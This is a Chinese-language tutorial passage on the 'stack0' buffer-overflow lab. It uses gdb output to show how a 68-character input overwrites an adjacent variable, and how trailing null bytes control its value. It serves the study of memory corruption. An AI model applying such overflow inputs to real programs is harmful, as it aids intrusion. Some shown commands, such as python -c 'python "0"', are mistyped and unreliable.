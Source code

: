```
n
输入：
12345678981234567898123456789812345678981234567898123456789812340000
enter
其中最后的12340000为第60到68个字符
-----------output:--------------
Breakpoint 4, main (argc=1, argv=0xffffd594) at stack0.c:13
13        if(modified != 0) {
--------------end---------------

si
disas /m
---------output:------------
13        if(modified != 0) {
0x08048411 <+29>:    mov    eax,DWORD PTR [esp+0x5c]
=> 0x08048415 <+33>:    test   eax,eax
-------------end------------

p $eax
-----------output:------------
$4 = 808464432
------------end---------------

p/x $eax(以十六进制显示eax的值,help x(x $esp+0x1c相当于p [$esp+0x1c]的效果，只不过p不支持p [somethin]命令显示内存地址对应的内容)中的/FMT可以看到支持的各种显示格式)
------------output:-------------
$5 = 0x30303030
---------------end--------------

```

这里的0x30303030是上面输入的68个键盘上的数字中的最后4个0对应的内存中的值，键盘上的数字0对应的真实内存ascii值为48（十进制）,也即十六进制0x30,更多关于ascii的理解可参考:

[https://forum.90sec.org/forum.php?mod=viewthread&tid=9217](https://forum.90sec.org/forum.php?mod=viewthread&tid=9217)

所以要输入第65到68个字符单元为内存中的0,也即ascii值为nul的字符：

```
print '\x00'(或python -c 'print "\x00"')
output:空
print '0'(或python -c 'python "0"')
output:0
print '\x30'(或python -c 'python "\x30"')
output:0

```

所以print '\x00'在内存中的数据为0,print '0'<==>print '\x30'

重新运行./stack0并输入下面的值可使modified在内存中的值不变，依然为内存中的0

1234567898123456789812345678981234567898123456789812345678981234\x00\x00\x00\x00
